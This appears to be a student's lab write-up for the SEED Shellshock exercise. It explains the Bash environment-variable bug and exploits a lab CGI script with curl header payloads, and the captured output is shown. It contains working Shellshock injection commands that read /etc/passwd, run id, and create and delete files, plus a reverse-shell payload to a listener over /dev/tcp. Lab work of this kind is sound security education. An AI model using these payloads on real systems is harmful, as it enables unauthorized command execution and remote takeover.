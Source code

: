 # ShellShock Explained
Shellshock is a vulnerability in Bash Shell which allows the execution of arbitrary command through enviroment variable. 
Classic Bash allowed the "conversion" of environment variables to functions when a new shell was born.

## Task 1
The main objetive of this task is to experiment with a vulnerable bash shell. As in any ShellShock Attack, I first have to create an enviroment variable that holds the shellshock code.
export foo='() { echo "You have been hacked!"; }' // Command to create an enviroment variable named foo
Special attention must be given to the spacing of the function definition, since bash requires spaces around the curly brackets.
Then I used the given script (./bash_shellshock) to spawn a vulnerable shell. When I call foo, in that shell, I can verify that it works because "You have been hacked!" is printed. When I try to call foo in the classic bash shell nothing is printed, telling me that the vulnerability is no longer present.

## Task 2
The main objetive of this task is to get information about the enviroment variables of a server in order to understand how to pass data to the vurnerable bash program.

### Task 2.A
By accessing http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi, with the browser and the curl command, it is possible to see which variables are set by the browser. 
By using the curl command, with the help of the browser extension "HTTP Header Live", I was able to verify that the request sets the following environment variables: 
```
HTTP_HOST
HTTP_USER_AGENT
HTTP_ACCEPT
HTTP_ACCEPT_LANGUAGE
HTTP_ACCEPT_ENCODING
HTTP_CONNECTION
HTTP_UPGRADE_INSECURE_REQUESTS
```
These variables are set by the browser because their values are the same as the ones that appear in the browser.

### Task 2.B
After executing the given commands, it is possible to conclude that:
  - curl -A changes the HTTP_USER_AGENT envrionment variable;
  - curl -e changes the HTTP_REFERERenvrionment variable;
  - curl -H "name:value creates an environment variable with the name and value provided.

## Task 3
The  main objective of this task is to launch a shellshock attack through the url http://www.seedlab-shellshock.com/cgi-bin/vul.cgi. To do this, the curl command must be used with the flags tested in  in order to change/create environment variables with shellshock code.

### Task 3.A
**Objective:** print the content of the /etc/passwd file.
**Command:** ``` curl -A "() { :; }; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi.```
**Output:** 
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats 
Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
### Task 3.B
**Objective:** get the server's process user ID.
**Command:** ```curl -e "() { :; }; echo Content_type: text/plain; echo; /bin/id" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi.```
**Output:** ```uid=33(www-data) gid=33(www-data) groups=33(ww-data)```

### Task 3.C
**Objective: **create a file inside the /tmp folder and check wheter the file is created or not.
**Command: **
```
curl -H "func: () { :; }; echo Content_type: text/plain; echo; /bin/touch /tmp/hack_file" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
curl -H "func: () { :; }; echo Content_type: text/plain; echo; /bin/ls -l /tmp" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```
**Output:** 
```
total 0 
-rw-r--r-- 1 www-data www-data 0 Mar 14 12:46 hack_file
```
### Task 3.D
**Objective:** delete the file created inside the /tmp folder.
**Command:**
```
curl -H "func: () { :; }; echo Content_type: text/plain; echo; /bin/rm /tmp/hack_file" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
curl -H "func: () { :; }; echo Content_type: text/plain; echo; /bin/ls -l /tmp" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```
**Output:**
```
total 0 
```

## Questions
### Will you be able to steal the content of the shadow file /etc/shadow from the server? Why or why not?

The shadow file can only be read by the root user. In , it can be seen that the process is not running as root but as a user called 'www-data'. This user doesn't have permissions to read the contents the file in /etc/shadow. In order to read it, it woulb be necessary to perform a privilege escalation to root.

### HTTP GET requests typically attach data in the URL, after the ? mark. Can we use this method to launch the Shellshock attack? Please conduct your experiment and derive your conclusions based on your experiment results.

If we try to copy the shellshock code given to the curl command into the URL, the parameters are put into an environment variable on the server side. The problem is that special charactersm, such as a space, are sanitized and transformed. This canges the exploit, making it invalid. It can be concluded that this is not a viable method to launch a Shellshock attack.  

## Task 4
**Objective:** obtain a reverse shell to the target's machine.
**Method:**
  - Set up a netcat listener on port 9090 that will receive the connection from the target machine and from which the reverse shell will operate.
    - Use nc -nv -l 9090 command in Linux terminal
  - Get the IP address of the machine where the listener is running by using the ifconfig command.
  - ifconfig will output various IP address. Use one from an interface that is running.
  - Perfom the Shellshock Attack by using the command curl -H "func: () { :; }; echo Content_type: text/plain; echo; /bin/bash -i > /dev/tcp/10.0.2.4/9090 0<&1 2>&1" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi.
    - /bin/bash -i launches an interactive shell.
    - /dev/tcp/10.0.2.4/9090 causes the output device of the shell to be redirected to the TCP connection to 10.0.2.4's port 9090.
    - 0<&1 tells the system to use standard output device as the standard input device. Since stdout is the TCP connection, this option indicates that the shell program will get its input from the same TCP connection.
    - 2>&1 causes the error output to be redirected to stdout, which is the TCP connection.

## Questions
In  why is it necessary to use echo Content_type: text/plain; and echo; in the curl commands?
In  is there any criteria to choose the IP address to use?
